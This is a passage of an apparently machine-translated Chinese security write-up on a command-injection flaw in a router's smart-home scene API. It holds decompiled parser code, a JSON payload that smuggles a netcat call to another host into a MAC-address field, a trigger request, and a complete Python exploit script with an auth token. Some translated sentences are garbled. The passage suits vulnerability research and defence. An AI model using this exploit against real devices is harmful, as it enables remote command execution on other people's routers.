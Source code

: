 ```
int32_t scene_command_parser(char* command){    void* json_object;    int32_t a2;    json_object = json_tokener_parse(command);    char const* const error_msg;    if (json_object == 0)    {        error_msg = "request is not a json objectn";    }    else    {        void* cmd_json_object;        cmd_json_object = json_object_object_get(json_object, "command");        if (cmd_json_object != 0)        {            int32_t cmd_string = json_object_get_string(cmd_json_object);            int32_t s0_3;            int32_t v0_11;            if (strcmp(cmd_string, "scene_setting") == 0)            {                int32_t v0_12;                int32_t a2_6;                v0_12 = strcmp(cmd_string, "get_scene_setting");                if (v0_12 == 0)                {                    if (strcmp(cmd_string, "get_single_scene_setting") == 0)                    {                        if (strcmp(cmd_string, "get_multiple_scene_setting") == 0)                        {                            if (strcmp(cmd_string, "scene_update") == 0)                            {                                if (strcmp(cmd_string, "scene_start") == 0)                                {                                    if (strcmp(cmd_string, "scene_stop") == 0)                                    {                                        if (strcmp(cmd_string, "scene_launch") == 0)                                        {                                            if (strcmp(cmd_string, "scene_launch_delete") == 0)                                            {                                                if (strcmp(cmd_string, "scene_delete") == 0)                                                {                                                    if (strcmp(cmd_string, "scene_start_by_device_status") == 0)                                                    {                                                        if (strcmp(cmd_string, "is_scene_processing") == 0)                                                        {                                                            if (strcmp(cmd_string, "get_scene_count") == 0)                                                            {                                                                if (strcmp(cmd_string, "reset_scenes") == 0)                                                                {                                                                    if (strcmp(cmd_string, "scene_start_by_crontab") != 0)                                                                    {
```

对于那些真正关注的人，我们可以在这里看到，strcmp如果字符串不相等，则返回 0，这与通常发生的情况相反：这是因为strcmp这里使用的是自定义实现。

在同一个函数中，我们可以看到我们感兴趣的函数的唯一交叉引用run_sysapi_macfilter，例如命令“scene_setting”。

在对命令解析过程进行了一些逆向工程之后，我们为 API 构建了以下有效负载，/api/xqsmarthome/request_smartcontroller然后可以使用该负载通过使用将阻止 MAC 地址的命令创建一个新的“场景”来对 RCEscene_setting进行 POC - 这将在事实上，这是我们的命令注入有效负载。

```
{    "command":"scene_setting",    "name":"it3",    "action_list":[            {                "thirdParty":"xmrouter",                "delay":17,                "type":"wan_block",                "payload":                    {                        "command":"wan_block",                        // Command Injection - making an exterior connection                        "mac":";nc 192.168.31.161 4242;#"                    }            }        ],    "launch":        {            "timer":                {                    "time":"2:2",                    "repeat":"0",                    "enabled":true                }        }}
```

然后，我们需要使用命令来启动这个场景scene_start_by_crontab。

```
{    "command":"scene_start_by_crontab",    "time":"2:2",    "week":0}
```

可以编写一个简单的Python脚本来利用该漏洞：

```
import requestsAUTH_TOKEN = "bd3ff46458f812a97b4e9f10945c6ce5"URL = f"http://192.168.31.1/cgi-bin/luci/;stok={AUTH_TOKEN}/api/xqsmarthome/request_smartcontroller"command = "nc 192.168.31.161 4242"requests.post(URL, data={    "payload":'{"command":"scene_setting","name":"it3","action_list":[{"thirdParty":"xmrouter","delay":17,"type":"wan_block","payload":{"command":"wan_block","mac":";' + command + ';#"}}],"launch":{"timer":{"time":"2:2","repeat":"0","enabled":true}}}'})requests.post(URL, data={    "payload":'{"command":"scene_start_by_crontab","time":"2:2","week":0}'})
```
